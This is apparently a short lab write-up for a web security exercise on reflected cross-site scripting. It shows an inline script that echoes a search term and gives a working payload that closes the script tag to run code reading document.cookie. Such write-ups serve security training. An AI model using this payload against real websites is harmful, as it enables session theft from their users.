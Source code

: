 
# Reflected XSS into a JavaScript string with single quote and backslash escaped

Solution:
- The search string is present in an inline script as shown below:
```html
<script>
var searchTerms = 'test';
document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');               
</script>
```
- Our input is single quote escaped with a backslash
- Try escaping the script block entirely with a `</script>` tag
- Notice that we can successfully escape from the script tag
- Use this payload
```html
</script><script>alert(document.cookie)</script>
```

